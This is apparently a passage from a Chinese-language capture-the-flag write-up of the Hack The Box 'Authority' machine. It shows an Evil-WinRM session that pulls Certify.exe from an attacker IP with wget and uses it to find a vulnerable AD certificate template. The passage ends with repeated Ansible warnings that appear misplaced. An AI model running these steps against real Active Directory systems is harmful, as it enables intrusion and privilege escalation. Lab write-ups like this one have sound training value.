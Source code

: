 ```powershell
d-r---        3/25/2023   1:20 AM                Program Files
d-----        3/25/2023   1:19 AM                Program Files (x86)
d-----        7/20/2023  11:52 AM                pwm
d-r---        3/24/2023  11:27 PM                Users
d-----        7/12/2023   1:19 PM                Windows
-a----        8/10/2022   8:44 PM       84784749 pwm-onejar-2.0.3.jar

*Evil-WinRM* PS C:\Certs> dir


    Directory: C:\Certs


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        4/23/2023   6:11 PM           4933 LDAPs.pfx
```

### CA模板漏洞

#### Certify搜索漏洞模板

在<https://github.com/r3motecontrol/Ghostpack-CompiledBinaries>可下载编译好的 `Certify.exe`，上传到目标机。
```powershell
*Evil-WinRM* PS C:\Users\svc_ldap\Downloads> wget 10.10.14.106:80/Certify.exe -OutFile Certify.exe
*Evil-WinRM* PS C:\Users\svc_ldap\Downloads> dir


    Directory: C:\Users\svc_ldap\Downloads


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        7/20/2023  12:18 PM         174080 Certify.exe
```

运行命令后发现一个名为 `CorpVPN` 的漏洞模板：
```powershell
*Evil-WinRM* PS C:\Users\svc_ldap\Downloads> ./Certify.exe find /vulnerable

   _____          _   _  __
  / ____|        | | (_)/ _|
 | |     ___ _ __| |_ _| |_ _   _
 | |    / _ \ '__| __| |  _| | | |
 | |___|  __/ |  | |_| | | | |_| |
  \_____\___|_|   \__|_|_|  \__, |
                             __/ |
                            |___./
  v1.0.0

[*] Action: Find certificate templates
[*] Using the search base 'CN=Configuration,DC=authority,DC=htb'

[*] Listing info about the Enterprise CA 'AUTHORITY-CA'

    Enterprise CA Name            : AUTHORITY-CA
    DNS Hostname                  : authority.authority.htb
    FullName                      : authority.authority.htb\AUTHORITY-CA
    Flags                         : SUPPORTS_NT_AUTHENTICATION, CA_SERVERTYPE_ADVANCED
    Cert SubjectName              : CN=AUTHORITY-CA, DC=authority, DC=htb
    Cert Thumbprint               : 42A80DC79DD9CE76D032080B2F8B172BC29B0182
    Cert Serial                   : 2C4E1F3CA46BBDAF42A1DDE3EC33A6B4
    Cert Start Date               : 4/23/2023 9:46:26 PM
    Cert End Date                 : 4/23/2123 9:56:25 PM
```

[WARNING]:  * Failed to parse /home/kali/HTB/Authority/SMB/Automation/Ansible/PWM/ansible_inventory with yaml
[WARNING]:  * Failed to parse /home/kali/HTB/Authority/SMB/Automation/Ansible/PWM/ansible_inventory with ini
[WARNING]: Unable to parse /home/kali/HTB/Authority/SMB/Automation/Ansible/PWM/ansible_inventory as an inventory
[WARNING]: No inventory was parsed, only implicit localhost is available
[WARNING]: provided hosts list is empty, only localhost is available. Note that the implicit localhost does not
[WARNING]:  * Failed to parse /home/kali/HTB/Authority/SMB/Automation/Ansible/PWM/ansible_inventory with yaml
[WARNING]:  * Failed to parse /home/kali/HTB/Authority/SMB/Automation/Ansible/PWM/ansible_inventory with ini
[WARNING]: Unable to parse /home/kali/HTB/Authority/SMB/Automation/Ansible/PWM/ansible_inventory as an inventory
[WARNING]: No inventory was parsed, only implicit localhost is available